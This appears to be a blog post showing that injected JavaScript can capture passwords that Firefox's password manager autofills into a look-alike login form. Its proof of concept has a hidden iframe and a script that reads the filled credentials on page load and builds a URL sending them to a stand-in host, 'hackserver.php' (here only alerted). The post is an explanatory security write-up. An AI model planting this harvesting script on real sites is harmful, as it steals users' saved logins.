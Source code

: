 ```yaml
---
layout: post
title: Demonstrating Password Manager Almost Vulnerability in FireFox
tags:
- javascript
- security
---
```


The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**index.php**

```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    <input type="submit"></input>
</form>
```


And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**login.php**

```php?start_inline=1
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```


and my logged in page.

**loggedin.php**

```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**hack.php**

```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```



In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
    <body onload="stealit()">
        <form action="login.php" name="login" method="post">
            Username: <input type="text" name="username"></input><br></br>
            Password: <input type="password" name="password"></input><br></br>
        </form>
        <script>
        function stealit()
        {
            var username=document.login.username.value;
            var password=document.login.password.value;
        
            alert("I am gonna do this:  self.location.href='http://hackserver.php?username=" + username + "&amp;password=" + password + "'");
        }
        </script>
    </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
